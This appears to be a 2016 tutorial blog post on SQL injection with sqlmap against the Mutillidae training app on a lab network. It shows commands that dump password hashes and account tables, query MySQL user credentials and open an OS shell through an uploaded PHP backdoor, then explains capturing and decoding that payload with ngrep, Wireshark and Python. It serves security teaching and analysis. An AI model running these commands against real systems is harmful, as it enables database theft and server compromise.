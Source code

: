 +++
topics = []
tags = [ "infosec", "sql", "sql-injection", "sqlmap", "packet-analysis", "ngrep", "wireshark", "python", "vulnerability-scanner", "scanning"]
date = "2016-05-07T00:00:00+08:00"
title = "SQL injection with sqlmap"
draft = false
description = "os-shell access, capture and inspect the payload"
toc = true

+++

# Scan for vulnerability
## Create a HTTP request file

1. Use `-r` option instead of passing long parameters of `--url`, `--user-agent`, etc.

	**Note:** use packet capture utility such as `ngrep` to facilitate the process.

	```text
	sqlmap -r REQUESTFILE ...
	-r REQUESTFILE      Load HTTP request from a file
	```

	![sql-injection-with-sqlmap-01](/img/sql-injection-with-sqlmap-01.png)

2. Clean-up the trailing `.` (non-printable char displayed by `ngrep`), and write to a file e.g., `mutillidae-login.request`

	![sql-injection-with-sqlmap-02](/img/sql-injection-with-sqlmap-02.png)


## Scan the target
1. Launch the scan with the `-r` and use the request file created above, it will take some time:

	```bash
	$ sqlmap -r -mutillidae-login.request --batch --banner
	```

	![sql-injection-with-sqlmap-03](/img/sql-injection-with-sqlmap-03.png)

2. Once a vulnerability is found, it will print the parameter that's vulnerable, the injection type, and the payload used to carried out the injection. The following scan results indicate total of three type of injections found.
	* boolean-based blind
	* error-based
	* AND/OR time-based blind

	![sql-injection-with-sqlmap-04](/img/sql-injection-with-sqlmap-04.png)

	**Note:** the `--technique` option can be used to specifically target one type of attack.
	```text
	 --technique=BEUSTQ,
	   B=boolean-based blind, E=error-based, U=union-query-based, S=stacked queries,
	   T=time-based blind, Q=inline queries
	```

## Explore the vulnerable target's databases and system

Once entered the system:

1. Crack the passwords
```bash
$ sqlmap -r mutillidae-login.request --batch --passwords
```
	![sql-injection-with-sqlmap-05](/img/sql-injection-with-sqlmap-05.png)

2. List the databases:
```bash
$ sqlmap -r mutillidae-login.request --batch --dbs
```
	![sql-injection-with-sqlmap-06](/img/sql-injection-with-sqlmap-06.png)

3. List the tables:
```bash
$ sqlmap -r mutillidae-login.request --batch --tables -D nowasp
```
	![sql-injection-with-sqlmap-07](/img/sql-injection-with-sqlmap-07.png)

4. Dump the `nowasp.accounts` table:
	```bash
	$ sqlmap -r mutillidae-login.request --batch --dump -T accounts -D nowasp
	```
	![sql-injection-with-sqlmap-08](/img/sql-injection-with-sqlmap-08.png)

### Some other commonly used options to explore the system:
```bash
$ sqlmap -r mutillidae-login.request --current-user
$ sqlmap -r mutillidae-login.request --privileges
$ sqlmap -r mutillidae-login.request --dbms=mysql -D mysql --sql-query="select user,password from mysql.user order by user desc"
```

## OS Shell Access
**Note:** see section [Capture and decode the payload]({{< relref "#capture-and-decode-the-payload" >}}) to retrieve the payloads.
```bash
$ sqlmap -r mutillidae-login.request --batch --os-shell
```
![sql-injection-with-sqlmap-09](/img/sql-injection-with-sqlmap-09.png)

### Behind the scene
The file stager (1) `tmpuntbv.php` is first uploaded to the `/var/www/html` as explained in section [Capture and decode the payload]({{< relref "#capture-and-decode-the-payload" >}}). 

Then, the backdoor (2) `tmpbyovw.php` is uploaded to the server through `tmpuntbv.php`.

![sql-injection-with-sqlmap-14](/img/sql-injection-with-sqlmap-14.png)

All shell commands' requests are made through the backdoor script `tmpbyovw.php` to 192.168.1.9 and results are returned to the 192.168.1.11.

![sql-injection-with-sqlmap-13](/img/sql-injection-with-sqlmap-13.png)

## Speedup the process and specify custom injection payloads
To speedup the process, pass as many parameters to shorten the processing time. For examples:
```bash
-p TESTPARAMETER      Testable parameter(s)
--dbms=DBMS           Force back-end DBMS to this value
--technique=TECH      SQL injection techniques to use (default "BEUSTQ")
```


---
# Capture and decode the payload

From the sqlmap stdout, pins down the files (payloads) uploaded:

![sql-injection-with-sqlmap-10](/img/sql-injection-with-sqlmap-10.png)


## with Ngrep
```bash
$ ngrep -d eth0 -qt -W byline "^GET | ^POST" "port 80 and host 192.168.1.11"
```

Look for the files uploaded described above:
![sql-injection-with-sqlmap-11](/img/sql-injection-with-sqlmap-11.png)

## with Wireshark

Use the following filters:
```bash
Capture filter: not broadcast and not multicast and host 192.168.1.11
Display filter (1): http contains "tmpuntbv.php"
Display filter (2): http contains "tmpbyovw.php"
```

From the matching packet, `Follow` &rarr; `HTTP Stream`:

![sql-injection-with-sqlmap-12](/img/sql-injection-with-sqlmap-12.png)


## Decode the payload
Unquote the url strings with:
```python
import sys
import urlparse
import codecs
buf = urlparse.unquote(sys.argv[1])
print buf
```
produces,

![sql-injection-with-sqlmap-15](/img/sql-injection-with-sqlmap-15.png)

and decodes the hex (starting from ~~0x~~3c3f... until ...3e0a) with,

```python
payload = sys.argv[1]
print codecs.decode(payload, "hex")
```

produces,

![sql-injection-with-sqlmap-16](/img/sql-injection-with-sqlmap-16.png)

the code basically handling file uploads and also change the uploaded files permission to `0755`.
